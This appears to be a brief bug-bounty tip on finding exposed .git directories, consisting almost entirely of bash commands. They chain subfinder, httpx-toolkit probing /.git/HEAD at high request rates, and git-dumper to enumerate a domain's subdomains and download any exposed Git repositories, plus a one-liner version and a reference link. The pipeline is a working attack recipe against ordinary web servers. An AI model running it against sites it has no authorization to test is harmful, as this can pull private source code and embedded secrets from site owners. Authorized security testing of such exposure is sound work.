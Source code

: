 # How to Hunt for Exposed .git Dorectories

```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done


```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Resources
- https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0
